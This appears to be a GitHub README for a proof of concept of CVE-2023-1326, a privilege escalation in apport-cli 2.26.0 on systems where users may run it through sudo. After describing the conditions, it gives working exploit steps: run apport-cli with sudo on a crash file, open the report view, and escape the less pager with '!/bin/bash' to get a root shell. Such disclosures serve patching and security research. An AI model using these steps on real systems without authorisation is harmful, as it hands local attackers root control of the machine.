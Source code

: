 # CVE-2023-1326-PoC
A proof of concept for CVE-2023–1326 in apport-cli 2.26.0

This vulnerability is privilege escalation in apport-cli 2.26.0, similar to CVE-2023–26604, this vulnerability only works if assign in sudoers:

![image](https://github.com/diego-tella/CVE-2023-1326-PoC/assets/70545257/983d4307-e3af-46db-8d76-5e3970f10225)

A privilege escalation attack was found in apport-cli 2.26.0 and earlier which is similar to CVE-2023-26604. If a system is specially configured to allow unprivileged users to run sudo apport-cli, less is configured as the pager, and the terminal size can be set: a local attacker can escalate privilege.

# PoC
```
sudo /usr/bin/apport-cli -c /var/crash/some_crash_file.crash
press V (view report)
!/bin/bash
```
![image](https://github.com/diego-tella/CVE-2023-1326-PoC/assets/70545257/aa702438-28fe-434c-9ea5-6ed760f956bb)
![image](https://github.com/diego-tella/CVE-2023-1326-PoC/assets/70545257/fa2d0491-35be-465f-8e7b-35024faf8dcf)
